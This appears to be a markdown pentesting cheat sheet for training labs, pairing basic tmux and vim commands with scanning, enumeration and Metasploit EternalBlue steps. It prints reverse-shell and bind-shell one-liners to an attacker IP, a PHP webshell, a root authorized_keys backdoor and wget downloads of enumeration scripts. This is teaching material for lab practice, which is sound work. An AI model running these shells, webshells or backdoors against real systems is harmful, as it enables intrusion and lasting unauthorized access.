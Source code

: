   
## Basic Tools
**Command** | **Description**
|--|--|
**General** | 
`sudo openvpn user.ovpn` | Connect to VPN
`ifconfig`/`ip a` | Show our IP address
`netstat -rn` | Show networks accessible via the VPN
`ssh  user@10.10.10.10` | SSH to a remote server
`ftp 10.129.42.253` | FTP to a remote server
**tmux** | 
`tmux`  | Start tmux
`ctrl+b` | tmux: default prefix
`prefix c` | tmux: new window
`prefix 1` | tmux: switch to window (`1`)
`prefix shift+%` | tmux: split pane vertically
`prefix shift+"` | tmux: split pane horizontally
`prefix ->` | tmux: switch to the right pane
**Vim**  |
`vim file` | vim: open  `file`  with vim
`esc+i` | vim: enter  `insert`  mode
`esc` | vim: back to  `normal`  mode
`x` | vim: Cut character
`dw` | vim: Cut word
`dd` | vim: Cut full line
`yw` | vim: Copy word
`yy` | vim: Copy full line
`p` | vim: Paste
`:1` | vim: Go to line number 1.
`:w` | vim: Write the file 'i.e. save'
`:q` | vim: Quit
`:q!`  | vim: Quit without saving
`:wq` | vim: Write and quit

## Pentesting
**Command** | **Description**
|--|--|
**Service Scanning** |
`nmap 10.129.42.253` | Run nmap on an IP
`nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP
`locate scripts/citrix` | List various available nmap scripts
`nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP
`netcat 10.10.10.10 22` | Grab banner of an open port
`smbclient -N -L \\\\10.129.42.253` | List SMB Shares
`smbclient \\\\10.129.42.253\\users` | Connect to an SMB share
`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP
`onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string
**Web Enumeration** |
`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` |Run a directory scan on a website
`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website
`curl -IL https://www.inlanefreight.com` | Grab website banner
`whatweb 10.10.10.121` | List details about the webserver/certificates
`curl 10.10.10.121/robots.txt` | List potential directories in  `robots.txt`
`ctrl+U` | View page source (in Firefox)
**Public Exploits** |
`searchsploit openssh 7.2` | Search for public exploits for a web application
`msfconsole` | MSF: Start the Metasploit Framework
`search exploit eternalblue` | MSF: Search for public exploits in MSF
`use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module
`show options` | MSF: Show required options for an MSF module
`set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option
`check` | MSF: Test if the target server is vulnerable
`exploit` | MSF: Run the exploit on the target server is vulnerable
**Using Shells** | 
`nc -lvnp 1234` | Start a  `nc`  listener on a local port
`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`| Another command to send a reverse shell from the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server
`nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server
`python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1)
`ctrl+z`  then  `stty raw -echo`  then  `fg`  then  `enter`  twice| Upgrade shell TTY (2)
`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` |Create a webshell php file
`curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell
**Privilege Escalation** | 
`./linpeas.sh` | Run  `linpeas`  script to enumerate remote server
`sudo -l` | List available  `sudo`  privileges
`sudo -u user /bin/echo Hello World!` | Run a command with  `sudo`
`sudo su -` | Switch to root user (if we have access to  `sudo su`)
`sudo su user -` | Switch to a user (if we have access to  `sudo su`)
`ssh-keygen -f key` | Create a new SSH key
`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user
`ssh  root@10.10.10.10  -i key` | SSH to the server with the generated private key
**Transferring Files** |
`python3 -m http.server 8000` | Start a local webserver
`wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine
`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine
`scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with  `scp`  (requires SSH access)
`base64 shell -w 0` | Convert a file to  `base64`
`echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | Convert a file from  `base64`  back to its orig
`md5sum shell` | Check the file's  `md5sum`  to ensure it converted correctly
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjAyMzI1MDIwMCwxMzMyOTQwODg4LC0xNj
Q2MTMxMTEyLC0xNjQ2MTMxMTEyXX0=
-->